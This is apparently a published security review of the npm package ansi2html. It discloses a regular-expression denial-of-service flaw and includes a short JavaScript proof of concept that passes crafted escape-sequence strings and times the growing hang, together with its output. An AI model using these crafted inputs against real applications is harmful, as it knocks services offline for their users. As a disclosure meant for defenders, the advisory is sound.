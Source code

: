 ```yaml
---
Publication-State: Active
Access: Public
Reviewers:
- Name: Adam Baldwin
  Associated-With-Project: false
  Compensation-Source: external
Domain: Security
Methodology:
- Code-Review
Issues-Identified: Not-Examined
Package-URLs:
- pkg:npm/ansi2html
Review-Date: '2015-10-25'
Scope: Implementation/Full
Schema-Version: '1.0'
SPDX-License-Identifier: CC-BY-4.0
---
```

### Summary
*Regular Expression Denial of Service*<br><br>Recommendation: There is currently no available fix. Do not pass untrusted input into ansi2html or limit the size of the user input to limit input.
### Details
ansi2html is vulnerable to regular expression denial of service (ReDoS) when certain types of user input is passed in.  "The Regular expression Denial of Service (ReDoS) is a Denial of Service attack, that exploits the fact that most Regular Expression implementations may reach extreme situations that cause them to work very slowly (exponentially related to input size). An attacker can then cause a program using a Regular Expression to enter these extreme situations and then hang for a very long time." [1]  ###Proof of concept ``` var ansi2html = require('ansi2html')  var start = process.hrtime(); ansi2html("[1111111111111111111111;0000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;00000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;000000000000000000000000"); console.log(process.hrtime(start));  start = process.hrtime(); ansi2html("[1111111111111111111111;0000000000000000000000000000"); console.log(process.hrtime(start)); ```  Results of the above ``` 00:29:53-adam_baldwin~/tmp$ node test [ 0, 119615367 ] [ 0, 149934565 ] [ 0, 233325677 ] [ 3, 46582479 ] ```
<br><br>• Affected Versions: <=99.999.99999
<br>• Patched Versions: <0.0.0
### Methodology
This review was taken directly from the Security Advisories section of npm's official website.
### External References
['https://www.owasp.org/index.php/Regular_expression_Denial_of_Service_-_ReDoS']
### Disclaimer
All security reviews are conducted on a "best-effort" basis against a software component at a point in time. We make no guarantee as to the quality or completeness of any review. If you believe any content is inaccurate, we encourage you to open an issue or submit a pull request with a correction or improvement.
### License
This text is released under at least the [Creative Commons Attribution 4.0 (CC-BY-4.0) license](https://creativecommons.org/licenses/by/4.0/legalcode.txt). Externally-referenced content may be licensed differently.
